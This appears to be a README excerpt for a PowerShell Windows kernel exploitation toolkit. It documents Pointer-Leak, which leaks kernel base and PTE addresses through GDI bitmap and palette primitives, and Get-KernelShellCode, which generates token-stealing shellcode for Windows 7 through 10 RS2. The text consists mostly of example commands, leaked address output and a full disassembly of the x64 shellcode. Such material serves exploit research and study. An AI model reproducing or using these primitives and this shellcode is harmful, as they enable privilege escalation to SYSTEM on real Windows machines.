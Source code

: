 ### Pointer-Leak

Pointer-Leak is a wrapper for various types of pointer leaks, more will be added over time.

Methods:

* NT kernel base leak through the TEB (by @Blomster81)
  * Properties: Requires GDI primitive => LowIL compatible
  * Targets: 7, 8, 8.1, 10, 10 RS1, 10 RS2, 10 RS3

* PTE leak through nt!MiGetPteAddress (by @Blomster81 & @FuzzySec)
  * Properties: RS1+ requires GDI primitive, NT Kernel base => LowIL compatible
  * Targets: 7, 8, 8.1, 10, 10 RS1, 10 RS2, 10 RS3

```
# NT Kernel base leak
PS C:\Users\b33f> Pointer-Leak -GDIManager $ManagerBitmap.BitmapHandle -GDIWorker $WorkerBitmap.BitmapHandle -LeakType TebNtBase -GDIType Bitmap

KTHREAD   : -35184359294848
TEBBase   : 140699435483136
NtPointer : -8787002226668
NtBase    : -8787003412480

# PTE leak
PS C:\Users\b33f> Pointer-Leak -GDIManager $Manager.PaletteHandle -GDIWorker $Worker.PaletteHandle -NtBase $NTLeak.NtBase -VirtualAddress 0xFFFFF78000000800 -LeakType MiGetPteAddress -GDIType Palette

PTEBase    : -10445360463872
PTEAddress : -9913858260992
```

### Get-KernelShellCode

Generate x32/64 Kernel token stealing shellcode.

Targets: 7, 8, 8.1, 10, 10 RS1, 10 RS2

```
# x64 Win10 RS2
PS C:\Users\b33f> $sc = Get-KernelShellCode
PS C:\Users\b33f> Get-CapstoneDisassembly -Architecture CS_ARCH_X86 -Mode CS_MODE_64 -Bytes $sc

Address  Instruction
-------  -----------
0x100000 mov r9, qword ptr gs:[0x188]
0x100009 mov r9, qword ptr [r9 + 0x220]
0x100010 mov r8, 0x2dbc
0x100017 mov rax, r9
0x10001A mov rax, qword ptr [rax + 0x2e8]
0x100021 sub rax, 0x2e8
0x100027 cmp qword ptr [rax + 0x2e0], r8
0x10002E jne 0x10001a
0x100030 mov rcx, rax
0x100033 add rcx, 0x358
0x10003A mov rax, r9
0x10003D mov rax, qword ptr [rax + 0x2e8]
0x100044 sub rax, 0x2e8
0x10004A cmp qword ptr [rax + 0x2e0], 4
0x100052 jne 0x10003d
0x100054 mov rdx, rax
0x100057 add rdx, 0x358
0x10005E mov rdx, qword ptr [rdx]
0x100061 mov qword ptr [rcx], rdx
0x100064 ret
```
